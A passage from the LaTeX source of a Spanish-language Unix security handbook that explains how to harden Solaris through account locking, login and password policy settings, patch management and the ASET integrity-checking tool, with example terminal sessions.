nuucp  LK    
listen  LK    
nobody  LK    
noaccess  LK    
nobody4  LK    
anita:/# 
\end{verbatim}
\end{quote}
Podemos bloquear una cuenta de acceso a la m\'aquina mediante {\tt `passwd -l'},
de la forma siguiente:
\begin{quote}
\begin{verbatim}
anita:/# passwd -s  toni
toni  PS    06/15/01    7  7  
anita:/# passwd -l toni
anita:/# passwd -s  toni
toni  LK    06/27/01    7  7  
anita:/# 
\end{verbatim}
\end{quote}
A pesar de su estado, las cuentas bloqueadas son accesibles si ejecutamos la
orden {\tt `su'} como ad\-mi\-nis\-tra\-do\-res, por lo que si estamos bastante 
preocupados por
nuestra seguridad podemos asignarles un {\it shell} que no permita la 
ejecuci\'on de \'ordenes, como {\tt /bin/false}\footnote{Por supuesto, teniendo 
en cuenta que si alguien es {\tt root} no va a tener problemas para convertirse
en otro usuario, sin importar el {\it shell} que este \'ultimo tenga.}:
\begin{quote}
\begin{verbatim}
anita:/# su - adm
$ id
uid=4(adm) gid=4(adm)
$ ^d
anita:/# passwd -e adm
Old shell: /bin/sh
New shell: /bin/false
anita:/# su - adm
anita:/# id
uid=0(root) gid=1(other)
anita:/# 
\end{verbatim}
\end{quote}
Si realmente somos paranoicos, de la lista de usuarios que hemos visto antes 
incluso nos 
podemos permitir el lujo de eliminar a {\tt nobody4}, ya que se trata de una 
entrada que existe para proporcionar cierta compatibilidad entre Solaris y 
SunOS que actualmente apenas se usa. No obstante, much\'{\i}simo m\'as 
importante que esto es eliminar o bloquear a cualquier usuario sin contrase\~na
en el sistema; es recomendable comprobar de forma peri\'odica que estos usuarios
no existen, para lo cual tambi\'en podemos utilizar {\tt `passwd -s -a'} y
vigilar las claves cuyo estado sea {\tt `NP'} ({\it No Password}):
\begin{quote}
\begin{verbatim}
anita:/# passwd -s -a|grep NP
prueba  NP
anita:/# passwd -l prueba
anita:/# 
\end{verbatim}
\end{quote}
Tras estas medidas de seguridad iniciales, lo m\'as probable es que en 
nuestro sistema comencemos a dar de alta usuarios reales; sin duda, lo primero
que estos usuarios tratar\'an de hacer es conectar remotamente v\'{\i}a {\tt
telnet}:
\begin{quote}
\begin{verbatim}
rosita:~$ telnet anita
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.


SunOS 5.8

login: toni
Password: 
Last login: Fri Jun 22 10:45:14 from luisa
anita:~$ 
\end{verbatim}
\end{quote}
A estas alturas ya debemos saber que es una locura utilizar {\tt telnet} para
nuestras conexiones remotas por el peligro que implica el tr\'afico de 
contrase\~nas en texto claro, por lo que debemos {\bf obligatoriamente} utilizar
{\sc ssh} o similar. Si de cualquier forma no tenemos m\'as remedio que 
permitir {\tt telnet} (no encuentro ning\'un motivo para ello, y personalmente 
dudo que los haya\ldots), quiz\'as nos interese modificar el {\it banner} de 
bienvenida al sistema, donde se muestra claramente que la m\'aquina tiene 
instalada una versi\'on concreta de Solaris: esto es algo que puede ayudar a un
pirata que busque informaci\'on de nuestro sistema. Para cambiar el mensaje
podemos crear el archivo {\tt /etc/default/telnetd}, en el que la entrada {\sc
`banner'} especifica dicho mensaje:
\begin{quote}
\begin{verbatim}
anita:/# cat /etc/default/telnetd 
BANNER="\nHP-UX anita A.09.05 E 9000/735 (ttyv4)\n\n" 
anita:/# telnet 0
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.

HP-UX anita A.09.05 E 9000/735 (ttyv4)

login: 

\end{verbatim}
\end{quote}
Algo similar se puede hacer con el fichero {\tt /etc/default/ftpd} para el
servicio de {\sc ftp}, aunque de nuevo dudo que haya alg\'un motivo para 
mantenerlo abierto; estos mensajes evidentemente no van a evitar que alguien
pueda obtener datos sobre el sistema operativo que se ejecuta en una m\'aquina 
(veremos al hablar del sistema de red en Solaris como conseguir esto), pero al 
menos no le dejar\'an esa informaci\'on en bandeja.\\
\\Siguiendo con las conexiones remotas a un sistema, uno de los aspectos que 
nos puede llamar la atenci\'on si estamos comenzando a trabajar con Solaris es 
que el usuario {\tt root} s\'olo puede conectar desde la propia consola de la
m\'aquina; si lo intenta de forma remota, se le negar\'a el acceso:
\begin{quote}
\begin{verbatim}
luisa:~$ telnet anita
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.

login: root
Password: 
Not on system console
Connection closed by foreign host.
luisa:~$ 
\end{verbatim}
\end{quote}
Esto es debido a que el par\'ametro {\sc
`console'} tiene como valor dicha consola ({\tt /dev/console}) en el fichero 
{\tt /etc/default/login}; para trabajar como superusuario de forma remota es
necesario acceder al sistema como un usuario sin privilegios y despu\'es 
ejecutar el comando {\tt su}. Esta forma de trabajo suele ser la m\'as 
recomendable, ya que ofrece un equilibrio aceptable entre seguridad y 
funcionalidad; no obstante, si nos interesara que {\tt root} pudiera conectar 
directamente de forma remota (no suele ser recomendable), podr\'{\i}amos 
comentar la entrada {\sc `console'} en el fichero anterior, mediante una 
almohadilla ({\tt `\#'}). Si por el contrario queremos que el administrador no 
pueda conectar al sistema
ni desde la propia consola, y s\'olo se puedan alcanzar privilegios de 
superusuario mediante la ejecuci\'on de {\tt su}, podemos dejar la entrada
correspondiente a {\sc `console'} en blanco:
\begin{quote}
\begin{verbatim}
anita:/# grep -i console /etc/default/login
# If CONSOLE is set, root can only login on that device.
CONSOLE=
anita:/#
\end{verbatim}
\end{quote}
En el fichero anterior ({\tt /etc/default/login}) existen otros par\'ametros
interesantes de cara a incrementar nuestra seguridad. Por ejemplo, el 
par\'ametro {\sc `timeout'} indica el n\'umero de segundos (entre 0 y 900) que
han de pasar desde que la m\'aquina solicita el {\it login} al conectar 
remotamente hasta que se cierra la conexi\'on si el usuario no lo teclea; esto
nos puede ayudar a evitar ciertos ataques de negaci\'on de servicio, pero puede
ser un problema si tenemos usuarios que conecten a trav\'es de l\'{\i}neas de
comunicaci\'on lentas o muy saturadas, ya que con un {\it timeout} 
excesivamente bajo es posible que antes de que el usuario vea en su terminal
el {\it banner} que le solicita su {\it login} la conexi\'on llegue a 
cerrarse.\\
\\Relacionada en cierta forma con el par\'ametro anterior, y tambi\'en dentro 
del archivo {\tt \\/etc/default/login}, la entrada {\sc `sleeptime'} permite
indicar el n\'umero de segundos -- entre 0 y 5 -- que han de transcurrir desde
que se teclea una contrase\~na err\'onea y el mensaje {\tt login incorrect}
aparece en pantalla. Con {\sc `retries'} podemos especificar el n\'umero de
intentos de entrada al sistema que se pueden producir hasta que un proceso de 
{\it login} finalice y la conexi\'on remota asociada se cierre: en otras 
palabras, indicamos el n\'umero de veces que un usuario puede equivocarse al
teclear su clave antes de que el sistema cierre su conexi\'on.\\
\\Otra directiva interesante de {\tt /etc/default/login} es {\sc `passreq'}: si
su valor es {\sc `yes'}, ning\'un usuario podr\'a conectar al sistema sin 
contrase\~na, y si es {\sc `no'}, s\'{\i} que se permiten este tipo de entradas.
Evidentemente, el valor recomendable es el primero, aunque el incremento que 
conseguimos en nuestra seguridad no es excesivo y s\'olo se puede encontrar
\'util en circunstancias muy concretas, ya que a los usuarios que no tengan
contrase\~na simplemente se les obligar\'a a elegir un {\it password} al 
intentar entrar al sistema:
\begin{quote}
\begin{verbatim}
anita:~$ telnet 0
Trying 0.0.0.0...
Connected to 0.
Escape character is '^]'.

login: prueba
Choose a new password.
New password: 
\end{verbatim}
\end{quote}
Si realmente queremos asegurarnos de que no tenemos usuarios sin clave podemos
ejecutar pe\-ri\'o\-di\-ca\-men\-te la orden {\tt `logins -p'}, que nos 
mostrar\'a los informaci\'on acerca de los usuarios sin contrase\~na en la
m\'aquina; si su salida es no vac\'{\i}a, tenemos un grave problema de 
seguridad:
\begin{quote}
\begin{verbatim}
anita:/# logins -p
prueba            107     staff           10      Usuari en proves
anita:/# passwd prueba
New password: 
Re-enter new password: 
passwd (SYSTEM): passwd successfully changed for prueba
anita:/# logins -p
anita:/# 
\end{verbatim}
\end{quote}
Para finalizar con {\tt /etc/default/login}, vamos a hablar de un par de
entradas en el fichero relacionadas con la auditor\'{\i}a de los accesos al
sistema: el par\'ametro {\sc `syslog'} con un valor {\sc `yes'} determina si se 
han de registrar mediante {\tt syslog} los accesos al sistema como {\tt root}, 
as\'{\i} como los intentos de {\it login} fallidos, y el par\'ametro {\sc
`syslog$\_$failed$\_$logins'} indica el n\'umero de intentos de entrada 
fallidos que se han de producir antes de emitir un mensaje de error; es 
recomendable que esta segunda variable tenga un valor {\tt `0'}, que implica
que {\tt syslog} registrar\'a {\bf todos} los intentos fallidos de {\it login}:
\begin{quote}
\begin{verbatim}
anita:/# grep -i ^syslog /etc/default/login 
SYSLOG=YES
SYSLOG_FAILED_LOGINS=0
anita:/# 
\end{verbatim}
\end{quote}
Otro archivo interesante de cara a incrementar aspectos de la seguridad 
relacionados con los u\-sua\-rios de nuestro sistema es {\tt
/etc/default/passwd}, donde se pueden definir par\'ametros para reforzar nuestra
pol\'{\i}tica de contrase\~nas; por ejemplo, podemos definir una longitud 
m\'{\i}nima para los {\it passwords} de los usuarios d\'andole un valor a la 
variable {\sc `passlength'}:
\begin{quote}
\begin{verbatim}
anita:/# grep -i passlength /etc/default/passwd 
PASSLENGTH=8
anita:/#
\end{verbatim}
\end{quote}
Por defecto, la longitud m\'{\i}nima de una clave es de seis caracteres; si le
asignamos a {\sc `passlength'} un valor menor (algo poco recomendable de 
cualquier forma), el sistema simplemente lo ignorar\'a y obligar\'a a los 
usuarios a utilizar {\it passwords} de seis o m\'as caracteres. Adem\'as, sea
cual sea la longitud de las claves que definamos, debemos tener siempre en
cuenta que Solaris s\'olo interpetar\'a {\bf los ocho primeros caracteres} de 
cada contrase\~na; el resto son ignorados, por lo que dos {\it passwords} cuyos
ocho primeros caracteres sean iguales ser\'an equivalentes por completo para el 
modelo de autenticaci\'on.\\
\\Una contrase\~na en Solaris debe poseer al menos dos letras (may\'usculas o
min\'usculas) y al menos un n\'umero o car\'acter especial. Tampoco debe 
coincidir con el nombre de usuario, ni con rotaciones del mismo (por ejemplo el 
usuario {\tt `antonio'} no podr\'a utilizar como clave {\tt `antonio'}, {\tt 
`ntonioa'}, {\tt `oinotna'}, etc.), y debe diferir del {\it password} 
anterior en al menos tres caracteres; para cualquiera de estos efectos 
comparativos, las letras may\'usculas y las min\'usculas son equivalentes. 
S\'olo el {\tt root} puede adjudicar contrase\~nas que no cumplan las normas
establecidas, pero a efectos de seguridad es recomendable que las claves que 
asigne tengan tantas restricciones como las que pueden escojer los usuarios (o
m\'as).\\
\\Volviendo de nuevo a {\tt /etc/default/passwd}, dentro de este archivo 
tenemos un par de entradas \'utiles para establecer una pol\'{\i}tica de 
envejecimiento de claves en nuestro sistema; se trata de {\sc `maxweeks'} y {\sc
`minweeks'}, que como sus nombres indican definen los tiempos de vida m\'aximo y
m\'{\i}nimo (en semanas) de una contrase\~na. Un tercer par\'ametro, {\sc 
`warnweeks'}, define el periodo de tiempo (de nuevo, en semanas) a partir del 
cual se avisar\'a a un usuario de que su {\it password} est\'a a punto de 
caducar; dicho aviso se produce cuando el usuario inicia una sesi\'on:
\begin{quote}
\begin{verbatim}
rosita:~$ telnet anita
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.

login: toni
Password: 
Your password will expire in 5 days.
Last login: Sun Jun 24 03:10:49 from rosita
anita:~$ 
\end{verbatim}
\end{quote}
Como no todo va a ser hablar bien de Unix a cualquier precio (aunque Solaris 
tiene muchos aspectos para hablar bien del operativo), podemos hacer un par de
cr\'{\i}ticas a mecanismos relacionados con las contrase\~nas en Solaris. En
primer lugar, quiz\'as deja algo que desear la granularidad que nos ofrece para
el envejecimiento de claves: especificar los valores m\'aximo y m\'{\i}nimo en
semanas a veces no es apropiado, y seguramente si Solaris nos permitiera indicar
dichos valores en d\'{\i}as podr\'{\i}amos definir pol\'{\i}ticas m\'as 
precisas; aunque en la mayor\'{\i}a de ocasiones la especificaci\'on en semanas
es m\'as que suficiente, en casos concretos se echa de menos el poder indicar 
los d\'{\i}as de vigencia de una contrase\~na. Otro aspecto que se podr\'{\i}a
mejorar en Solaris es la robustez de las claves: limitarse a rotaciones del
nombre de usuario es en la actualidad algo pobre; un esquema como el ofrecido en
AIX, donde se pueden especificar incluso diccionarios externos al operativo 
contra los que comparar las claves que un usuario elige, ser\'{\i}a mucho m\'as
potente.\\
\\Contra el primero de estos comentarios quiz\'as se podr\'{\i}a decir, en 
defensa de Solaris, que realmente en {\tt /etc/shadow} podemos especificar 
d\'{\i}as en lugar de semanas, pero eso implicar\'{\i}a modificar el archivo
a mano para cada usuario, algo que no suele ser recomendable en ning\'un
sistema Unix, o bien ejecutar {\tt /usr/bin/passwd} con las opciones
apropiadas, de nuevo para todos los usuarios en cuesti\'on. Contra el segundo
tambi\'en se podr\'{\i}a argumentar que existen utilidades de terceros para 
reforzar las contrase\~nas que eligen los usuarios, o bien que no es 
dif\'{\i}cil escribir un m\'odulo de {\sc pam} para evitar que esos usuarios
elijan claves triviales, pero el hecho es que Sun Microsystems por defecto no 
incorpora ninguno de estos mecanismos en Solaris.
\section{El sistema de parcheado}
Como en el resto de Unices, en Solaris un parche se define como un grupo de
ficheros y directorios que reemplaza o actualiza ficheros y directorios 
existentes en el sistema para tratar de garantizar la ejecuci\'on correcta del
{\it software} (\cite{kn:sun98}); con la instalaci\'on de parches aumentamos -- 
al menos te\'oricamente -- la seguridad y la disponibilidad de un sistema, y 
es {\bf muy recomendable} seguir una pol\'{\i}tica de parcheado estricta, al 
menos en cuanto a parches de seguridad se refiere.\\
\\Sun Microsystems distribuye entre sus clientes con contrato de mantenimiento 
los parches para Solaris y el resto de sus productos v\'{\i}a CD-ROM cada pocas 
semanas, pero -- mucho m\'as r\'apido --, tambi\'en 
los ofrece a trav\'es de Internet, desde {\tt http://sunsolve.sun.com/}; aunque 
el acceso a ciertos parches est\'a restringido a clientes con contrato, los 
relativos a la seguridad de los sistemas y los recomendados son completamente 
p\'ublicos.\\
\\Desde Sun Microsystems, cada parche es referenciado mediante un dos n\'umeros:
un {\it `patch id'}, que es el realmente el identificador del parche, y un 
n\'umero de revisi\'on del parche, separados ambos por un gui\'on; de esta 
forma cuando descargamos un parche desde {\it SunSolve} y lo descomprimimos, o 
cuando lo recibimos en un CD-ROM, dicho parche estar\'a contenido en un 
directorio cuyo nombre es justamente esa referencia:
\begin{quote}
\begin{verbatim}
anita:/var/tmp# ls 110899-01/
README.110899-01  SUNWcsu
anita:/var/tmp# 
\end{verbatim}
\end{quote}
Dentro del directorio anterior encontraremos generalmente un fichero donde se
nos explica la u\-ti\-li\-dad del parche, los problemas que soluciona y la 
forma de
aplicarlo; adem\'as, existir\'an una serie de subdirectorios cuyos nombres son
los paquetes de {\it software} a los que ese parche afecta directamente (es
decir, de los que sustituye o actualiza directorios o archivos). Como podemos
ver, en el ejemplo anterior s\'olo encontramos uno de estos subdirectorios, {\tt
SUNWcsu}, lo que indica que el parche s\'olo afectar\'a a ficheros de ese
paquete. A su vez, dentro de cada uno de los directorios que diferencian 
paquetes {\it software} encontramos m\'as archivos y subdirectorios que
contienen realmente las versiones actualizadas de programas, as\'{\i} como 
\'ordenes post--instalaci\'on, descripci\'on del {\it software} actualizado, 
informaci\'on sobre archivos y directorios modificados, etc.\\
\\Desde Sun Microsystems se definen cinco modelos b\'asicos de parches; los {\it
standard} son parches que solucionan un problema {\it software} o {\it hardware}
espec\'{\i}fico, por lo que si ese problema no afecta a nuestros sistemas 
no tenemos por qu\'e instalarlos. Los parches {\it recommended} son aquellos que
Sun recomienda sea cual sea nuestro entorno para prevenir problemas en el 
futuro, y los {\it security} son los que resuelven problemas de seguridad; 
evidentemente ambos son de instalaci\'on casi obligatoria. Un cuarto tipo son 
los parches {\it Y2K}, que como su nombre indica son los que aseguran el
cumplimiento con el a\~no 2000 en todos los productos de Sun; a no ser que 
trabajemos con versiones de {\it software} o {\it hardware} antiguo, rara vez
tendremos que instalar uno de estos parches, ya que los productos m\'as o menos 
nuevos no han de tener problemas con el a\~no 2000. Finalmente, el quinto tipo
de parches son los {\it patch clusters}; no son realmente otro modelo, sino que
se trata de agrupaciones de los anteriores que se distribuyen en un \'unico 
archivo para descargarlos e instalarlos m\'as c\'omodamente: incluyen un {\it
script} denominado {\tt `install$\_$cluster'} que instala en el orden adecuado
todos los parches del grupo, lo que evita al administrador tener que hacerlo
uno a uno.\\
\\Para instalar un parche podemos utilizar la orden {\tt `patchadd'} en Solaris
7 o superior, o {\tt \\`installpatch'} en la versi\'on 2.6 o anteriores, en 
ambos 
casos evidentemente como {\tt root} del sistema; suele ser recomendable, en 
funci\'on del tipo de parche y su criticidad, situar a la m\'aquina en modo
monousuario antes de aplicarlo, para evitar que actividades de los usuarios
puedan interferir con el proceso de parcheado. De esta forma, si queremos
aplicar el parche anterior ({\tt 110899-01}), los pasos a seguir ser\'{\i}an los
siguientes:
\begin{quote}
\begin{verbatim}
anita:/var/tmp# who -r
   .       run-level S  Jun  8 06:37     S      0  ?
anita:/var/tmp# unzip 110899-01.zip
anita:/var/tmp# patchadd 110899-01/

Checking installed patches...
Verifying sufficient filesystem capacity (dry run method)...
Installing patch packages...

Patch number 110899-01 has been successfully installed.
See /var/sadm/patch/110899-01/log for details

Patch packages installed:
  SUNWcsu

anita:/var/tmp# 
\end{verbatim}
\end{quote}
Muchos parches necesitan un reinicio del sistema para aplicarse correctamente,
en especial aquellos que modifican alg\'un par\'ametro del n\'ucleo de Solaris;
si instalamos bloques de parches m\'as o menos grandes, como los {\it 
Maintenance Updates} o los {\it Recommended and Security}, el reinicio es casi
seguro.\\
\\Para comprobar qu\'e parches para el operativo tenemos instalados en una 
m\'aquina podemos utilizar las \'ordenes {\tt `showrev -p'} o {\tt 
`patchadd -p'}: 
\begin{quote}
\begin{verbatim}
anita:/# showrev -p |grep 110899-01
Patch: 110899-01 Obsoletes:  Requires:  Incompatibles:  Packages: SUNWcsu
anita:/# 
\end{verbatim}
\end{quote}
Es importante resaltar lo de `para el operativo', ya que estas \'ordenes no 
muestran en ning\'un caso los parches aplicados a la {\sc obp}; adem\'as, hemos
de tener presente que si un parche necesita que se reinicie el
sistema, {\tt `showrev'} nos dir\'a que est\'a instalado, pero aunque la
orden no muestre ning\'un mensaje de error, el parche no tendr\'a efecto hasta 
el siguiente reinicio de la m\'aquina. Siguiendo con nuestro ejemplo para
ver la informaci\'on que se nos muestra de cada parche, podemos ver que el 
parche que hemos instalado afecta al paquete {\tt SUNWcsu} (algo que ya 
sab\'{\i}amos), no deja obsoletas a versiones anteriores, no
necesita que est\'e aplicado otro parche para poder instalarse, y tampoco tiene
incompatibilidades.\\
\\Si por cualquier motivo deseamos eliminar del sistema un parche que hemos
instalado con an\-te\-rio\-ri\-dad podemos usar la orden {\tt `patchrm'} en 
Solaris 7 o superior, o {\tt `backoutpatch'} si utilizamos versiones m\'as 
antiguas. Esto restaurar\'a el estado que pose\'{\i}a el sistema -- en cuanto a 
ficheros y directorios -- antes de aplicar el parche:
\begin{quote}
\begin{verbatim}
anita:/# who -r
   .       run-level S  Jun  8 06:37     S      0  ?
anita:/# patchadd -p|grep 110899-01
Patch: 110899-01 Obsoletes: Requires: Incompatibles: Packages: SUNWcsu
anita:/# patchrm 110899-01

Checking installed patches...

Backing out patch 110899-01...

Patch 110899-01 has been backed out.

anita:/# patchadd -p|grep 110899-01
anita:/# 
\end{verbatim}
\end{quote}
El hecho de poder desinstalar un parche con tanta facilidad es debido a que,
si no indicamos lo contrario, cuando utilizamos {\tt `patchadd'} para a\~nadirlo
esta orden hace una copia de seguridad de los ficheros y directorios
que van a modificar o actualizar, y la guarda en {\tt /var/}; podemos utilizar
la opci\'on {\tt `-d'} del comando si no queremos esta copia se genere, pero si
lo hacemos hemos de tener presente que {\bf no} podremos desinstalar el parche
aplicado: por tanto esto s\'olo es recomendable en los casos en los que el
espacio libre en {\tt /var/} sea muy limitado y no tengamos opci\'on de 
aumentarlo (por ejemplo, ampliando el {\it filesystem} o simplemente borrando o
comprimiendo archivos).\\
\\Sun Microsystems distribuye entre sus clientes con contrato la utilidad {\it 
PatchDiag}, una herramienta realmente \'util para mantener al d\'{\i}a nuestro
nivel de parcheado (y con \'el, nuestra seguridad); la principal funci\'on de
este {\it software} es determinar el nivel de parcheado de una m\'aquina y
compararlo con la lista de parches {\it Recommended and Security} de Sun. Esta
lista contiene los parches cuya instalaci\'on es b\'asica de cara a garantizar
la seguridad o el correcto funcionamiento de los sistemas Solaris, y 
representa los parches que {\bf obligatoriamente} deben estar instalados en 
sistemas cr\'{\i}ticos, como los cortafuegos, si queremos que sean seguros.
{\it PatchDiag} {\bf no} aplica estos parches en ning\'un momento, sino que se
limita \'unicamente a indicar cu\'ales son necesarios en la m\'aquina donde se
ejecuta.
%\section{Auditor\'{\i}a BSM}
%Sun Microsystems ofrece un sistema de auditor\'{\i}a de nivel C2 
%(\cite{kn:ora}) tanto en SunOS ({\it Sunshield}) como en Solaris ({\it 
%Sunshield BSM, Basic Security Module}); b\'asicamente, este sistema permite 
%guardar un registro con
%mayor o menor nivel de detalle de las acciones de cada usuario. Esto tiene
%diferentes implicaciones con respecto al funcionamiento de la m\'aquina: por
%un lado, conseguimos una auditor\'{\i}a completa de cualquier acci\'on que se
%haya llevado a cabo en el sistema, lo que evidentemente nos puede ser muy \'util
%para incrementar nuestra seguridad, pero este incremento suele ser a costa de
%una degradaci\'on de las prestaciones de la m\'aquina; adem\'as, si queremos
%auditar con un alto nivel de detalle, los ficheros de {\it log} que se 
%generar\'an tendr\'an un tama\~no m\'as que respetable, con lo que necesitaremos
%discos lo suficientemente grandes para albergarlos.\\
%\\Para inicializar el sistema de auditor\'{\i}a {\sc bsm} en una m\'aquina 
%Solaris hemos de ejecutar el {\it shellscript} {\tt /etc/security/bsmconv}:
%\begin{quote}
%\begin{verbatim}
%proves:/# /etc/security/bsmconv
%This script is used to enable the Basic Security Module (BSM).
%Shall we continue with the conversion now? [y/n] y
%bsmconv: INFO: checking startup file.
%bsmconv: INFO: move aside /etc/rc2.d/S92volmgt.
%bsmconv: INFO: turning on audit module.
%bsmconv: INFO: initializing device allocation files.
%
%The Basic Security Module is ready.
%If there were any errors, please fix them now.
%Configure BSM by editing files located in /etc/security.
%Reboot this system now to come up with BSM enabled.
%proves:/# 
%\end{verbatim}
%\end{quote}
%Como el mensaje indica, es necesario reiniciar el sistema para que el {\sc bsm}
%comience a funcionar de forma correcta; esto es debido b\'asicamente a que el
%{\it shellscript} anterior modifica el fichero {\tt /etc/system}, que se lee
%en el arranque de la m\'aquina. Una de las l\'{\i}neas que se a\~naden en este
%archivo es la siguiente:
%\begin{quote}
%\begin{verbatim}
%set abort_enable = 0
%\end{verbatim}
%\end{quote}
%Esta entrada en {\tt /etc/system} tiene como funci\'on deshabilitar el acceso
%a la memoria {\sc eeprom} de las m\'aquinas {\sc sparc} mediante la 
%combinaci\'on de teclas {\it `Stop--A'}; aunque en algunas situaciones nos 
%puede ser \'util, por norma general -- especialmente en los sistemas ubicados
%en salas acondicionadas, de acceso restringido -- suele ser recomendable 
%permitir interactuar con la {\sc nvram} a los operadores que est\'en 
%autorizados a acceder f\'{\i}sicamente a la m\'aquina. Por tanto, una opci\'on
%que muchos administradores de sistemas eligen es eliminar esa entrada del
%fichero, o simplemente comentarla escribiendo un signo {\tt `$\ast$'} al 
%principio de la l\'{\i}nea (ojo, en {\tt /etc/system} un comentario se indica 
%mediante un {\bf asterisco}, no mediante una almohadilla como en otros muchos 
%ficheros del sistema operativo).\\
%\\Como hemos dicho, al reiniciar el sistema ya estar\'a activo el {\it BSM
%Auditing} de Solaris.
%\section{\it Accounting}
%Como en el resto de Unices, el sistema de contabilidad o {\it accounting} de
%Solaris permite obtener informaci\'on sobre el uso -- tanto individual como por
%grupos -- de los recursos de un sistema inform\'atico; esto puede ser \'util 
%para cobrar por la utilizaci\'on de dichos recursos, pero tambi\'en es muy 
%interesante su funcionalidad para incrementar la seguridad de nuestras 
%m\'aquinas detectando abusos por parte de usuarios autorizados o actividades
%sospechosas en un sistema, por poner s\'olo un par de ejemplos; conviene 
%recordar que uno de los episodios m\'as populares en el mundo de la seguridad
%fu\'e detectado por un peque\~no desajuste en el sistema de contabilidad de una 
%m\'aquina y acab\'o descubriendo una trama de {\it hacking} militar 
%impresionante (\cite{kn:sto89}).\\
%\\Para activar el {\it accounting} en una m\'aquina Solaris necesitamos en 
%primer lugar tener instalados los paquetes {\tt SUNWaccu} y {\tt SUNWaccr}:
%\begin{quote}
%\begin{verbatim}
%anita:/# pkginfo SUNWaccu SUNWaccr 
%system      SUNWaccu       System Accounting, (Usr)
%system      SUNWaccr       System Accounting, (Root)
%anita:/# 
%\end{verbatim}
%\end{quote}
%El segundo de estos paquetes de {\it software} habr\'a instalado, entre otros 
%ficheros, un archivo de\-no\-mi\-na\-do {\tt /etc/init.d/acct}, que ser\'a el 
%{\it script} que
%inicializar\'a el sistema de contabilidad en cada arranque de la m\'aquina y lo
%detendr\'a en cada parada; para conseguir esto, debemos enlazarlo con el nombre 
%adecuado para que se ejecute al entrar en el {\it runlevel} correspondiente:
%\begin{quote}
%\begin{verbatim}
%anita:/# pkgchk -l -p /etc/init.d/acct 
%Pathname: /etc/init.d/acct
%Type: editted file
%Expected mode: 0744
%Expected owner: root
%Expected group: sys
%Referenced by the following packages:
%        SUNWaccr       
%Current status: installed
%
%anita:/# ln /etc/init.d/acct /etc/rc2.d/S22acct
%anita:/# ln /etc/init.d/acct /etc/rc0.d/K22acct
%anita:/# 
%\end{verbatim}
%\end{quote}
%Las herramientas de contabilidad en Solaris se ubican en {\tt /usr/lib/acct/}; 
%en este directorio vamos a encontrar los ejecutables que nos permiten controlar
%a todo el subsistema de {\it accounting} en una m\'aquina. De todos ellos, 
%quiz\'as el principal programa sea {\tt runacct}, el procedimiento de 
%contabilidad diario que se ha de invocar generalmente desde el {\tt cron} del
%usuario {\tt adm}, por supuesto s\'olo una vez al d\'{\i}a\footnote{El propio 
%{\tt runacct} controla que no se ejecute m\'as de una vez por d\'{\i}a, 
%mediante archivos de bloqueo.}; por ejemplo, podemos invocar a esta herramienta
%cada noche a las tres de la madrugada:
%\begin{quote}
%\begin{verbatim}
%anita:/# crontab -l adm|grep runacct
%0 3 * * * /usr/lib/acct/runacct 2> /var/tmp/runacct.log
%anita:/# 
%\end{verbatim}
%\end{quote}
\section{Extensiones de la seguridad}
\subsection{\sc aset}
{\sc aset} ({\it Automated Security Enhancement Tool}) es un conjunto de 
herramientas integradas dentro de Solaris que permiten monitorizar ciertos 
valores de par\'ametros de los ficheros del sistema, desde atributos ubicados en
los inodos (permisos, propietario\ldots) hasta el contenido de cada archivo. 
Estas herramientas se encuentran en el directorio {\tt /usr/aset/}, y su
utilidad es evidente: permite detectar cualquier cambio en uno de nuestros 
ficheros, cambio que si no ha sido realizado por un usuario debidamente 
autorizado puede esconder desde un troyano hasta una puerta trasera de entrada 
al sistema.\\
\\De todas las utilidades de que dispone {\sc aset}, la m\'as importante es
sin duda {\tt /usr/aset/aset}, un {\it shellscript} encargado de invocar al
resto de herramientas. Desde l\'{\i}nea de comandos, este programa puede recibir
como par\'ametro el nivel de seguridad deseado en la comprobaci\'on: {\tt 
`low'}, que se limita a informar de las vulnerabilidades potenciales, {\tt 
`mid'}, que modifica ciertos par\'ametros que considera incorrectos, y {\tt 
`high'}, el m\'as restrictivo, que modifica m\'as a\'un dichos par\'ametros, y
que es recomendable en sistemas en los que la seguridad de Solaris sea un 
elemento por encima de cualquier otro, como el funcionamiento; incluso en la
p\'agina {\tt man} de {\tt aset} se advierte que algunas aplicaciones pueden
dejar de funcionar si utilizamos este nivel de seguridad.\\
\\Podemos invocar a {\tt /usr/aset/aset} indic\'andole mediante el par\'ametro
{\tt `-l'} el nivel de seguridad deseado:
\begin{quote}
\begin{verbatim}
anita:/# /usr/aset/aset -l low
======= ASET Execution Log =======

ASET running at security level low

Machine = anita; Current time = 0628_03:11

aset: Using /usr/aset as working directory

Executing task list ...
        firewall
        env
        sysconf
        usrgrp
        tune
        cklist
        eeprom

All tasks executed. Some background tasks may still be running.

Run /usr/aset/util/taskstat to check their status:
     /usr/aset/util/taskstat     [aset_dir]

where aset_dir is ASET's operating directory,currently=/usr/aset.

When the tasks complete, the reports can be found in:
     /usr/aset/reports/latest/*.rpt
You can view them by:
     more /usr/aset/reports/latest/*.rpt
anita:/# 
\end{verbatim}
\end{quote}
La orden anterior habr\'a generado un directorio de informes cuyo nombre hace 
referencia a la fecha y hora de ejecuci\'on, y que al ser el \'ultimo se enlaza 
tambi\'en con el nombre {\tt latest}; todos los {\it reports} generados por 
{\tt aset} tienen extensi\'on {\tt `.rpt'} (son simples ficheros {\sc ascii}), 
y se guardan en {\tt /usr/aset/reports/}. Cada uno de ellos contiene el informe 
de las potenciales 
vulnerabilidades que {\tt aset} ha encontrado durante su ejecuci\'on, as\'{\i}
como de los cambios que haya realizado en funci\'on del nivel de seguridad
especificado. Como {\tt aset} indica, el hecho de que la ejecuci\'on del comando
haya finalizado no implica que los informes se hayan realizado completamente;
podemos ejecutar {\tt /usr/aset/util/taskstat} para ver que tareas no han
finalizado a\'un.\\
\\Adem\'as de los informes de los que acabamos de hablar, la primera 
ejecuci\'on de {\tt aset} genera una serie de archivos en el directorio {\tt 
/usr/aset/master/}: en ellos se guarda una imagen del estado que la herramienta
ha encontrado en el sistema, de forma que una ejecuci\'on posterior del 
programa -- dentro del mismo nivel de seguridad -- puede comprobar qu\'e 
par\'ametros han cambiado en cada uno de los ficheros analizados; evidentemente,
es vital para nuestra seguridad evitar que un atacante pueda modificar esta
imagen, ya que de lo contrario podr\'{\i}a `enga\~nar' sin problemas a {\tt 
`aset'}. Por ejemplo,
al ejecutar {\tt `/usr/aset/aset'} con un nivel de seguridad {\tt `low'} se ha 
